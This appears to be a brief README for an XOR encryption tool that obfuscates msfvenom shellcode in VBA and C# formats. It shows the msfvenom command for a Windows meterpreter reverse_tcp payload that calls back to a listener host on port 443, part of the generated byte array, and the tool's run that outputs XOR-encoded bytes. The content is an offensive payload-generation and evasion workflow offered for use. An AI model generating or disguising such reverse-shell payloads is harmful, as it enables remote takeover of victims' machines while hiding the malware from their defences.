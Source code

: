 # XOR_Payload_encryption
This project is ment to be use as an encryptor shellcode produced by msfvenom for :

"-f vbapplication" 
"-f csharp"




it does automatically detect the payload format.


➜  ~ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.57 LPORT=443 EXITFUNC=thread -f vbapplication
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes

Final size of vbapplication file: 1302 bytes
buf = Array(252,232,143,0,0,0,96,13.....


Running: 
xorsharp

 xorcharp  'buf = Array(252,232,143,0,0.....)' 0xbd

--> Output:


Counter:  376
Key:  0xbd
Key:  189
buf =  Array(189, 189, 189, 221,... )




